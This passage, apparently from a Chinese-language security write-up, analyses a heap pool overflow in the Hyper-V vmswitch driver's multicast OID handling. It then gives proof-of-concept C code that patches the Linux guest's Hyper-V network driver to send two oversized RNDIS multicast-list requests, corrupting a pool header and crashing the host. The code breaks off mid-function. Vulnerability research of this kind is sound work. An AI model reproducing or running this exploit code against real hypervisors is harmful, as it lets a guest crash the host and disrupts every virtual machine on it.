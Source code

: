          该漏洞需要连续运行两次 vmswitch! VmsMpCommonPvtHandleMulticastOids 函数才能触发。

第一次执行 vmswitch! VmsMpCommonPvtHandleMulticastOids 函数时，会先分配一个大小为 set->info_buflen 的内存，然后在 offset+0x143，offset+0x14A 处分别保存分配的内存的地址以及 set->info_buflen/6 的值。

第二次执行 vmswitch! VmsMpCommonPvtHandleMulticastOids 函数时， 会先检查 set->info_buflen/6 的值是否和第一次执行时在 offset+0x14A 的值相等。简单来说，就是检查第二次调用 vmswitch! VmsMpCommonPvtHandleMulticastOid 函数时 set->info_buflen 整除 6 的值必须要相等，比如第一次调用时 set->info_buflen = 60，第二次调用时候 set->info_buflen 可以为 65，他们整除结果是一样的，所以第二次调用函数时相对于上次 set->info_buflen 最大偏移为 5 字节。随后代码运行到 offset+144EB，由于第一次调用时分配的 buffer 大小只有 set->info_buflen = extlen，但是现在需要向这个内存中拷贝 extlen+5 字节的数据，直接导致覆盖了下个堆块的前 5 字节，破坏了 POOL_HEADER，在系统 free 后面这块内存时抛出异常，导致蓝屏。

5.2. PoC 编写与漏洞触发

         这里，我们使用 Linux 作为虚拟机系统，由于 Linux 内核可以随意修改，所以减少了编写 PoC 的难度，笔者的 Linux 内核版本为 4.7.2。

         这里我们的 PoC 可以直接通过修改 Hyper-V 在 Linux 内核驱动代码实现，故我们在./linux-4.7.2/drivers/net/hyperv/rndis_filter.c 文件中添加如下代码。

```
static int rndis_filter_query_device_mac(struct rndis_device *dev)
{//这个函数是Linux Kernel中原有的函数，我们需要修改它
u32 size = ETH_ALEN;
rndis_pool_overflow(dev);//这是我们加上的语句
return rndis_filter_query_device(dev,
RNDIS_OID_802_3_PERMANENT_ADDRESS,
dev->hw_mac_adr, &size);
}
//下面为新增加的函数，用于触发漏洞
static int rndis_pool_overflow(struct rndis_device *rdev)
{
int ret;
  struct net_device *ndev = rdev->ndev;
  struct rndis_request *request;
  struct rndis_set_request *set;
  struct rndis_set_complete *set_complete;
  u32 extlen = 16 * 6;
  unsigned long t;
  request = get_rndis_request(
    rdev, RNDIS_MSG_SET,
    RNDIS_MESSAGE_SIZE(struct rndis_set_request) + extlen);
  if (!request)
    return -ENOMEM;
  set = &request->request_msg.msg.set_req;
  set->oid = 0x01010209; // OID_802_3_MULTICAST_LIST
  set->info_buflen = extlen;
  set->info_buf_offset = sizeof(struct rndis_set_request);
  set->dev_vc_handle = 0;
  ret = rndis_filter_send_request(rdev, request);//将数据发送至宿主机
  if (ret != 0)
    goto cleanup;
  t = wait_for_completion_timeout(&request->wait_event, 5*HZ);
  if (t == 0)
    return -ETIMEDOUT;
  else {
    set_complete = &request->response_msg.msg.set_complete;
    if (set_complete->status != RNDIS_STATUS_SUCCESS) {
      printk(KERN_INFO "failed to set multicast list: 0x%x\n",
        set_complete->status);
      ret = -EINVAL;
    }
  }
  put_rndis_request(rdev, request);
  request = get_rndis_request(rdev, RNDIS_MSG_SET,
    RNDIS_MESSAGE_SIZE(struct rndis_set_request) + extlen + 5);
  if (!request)
    return -ENOMEM;
```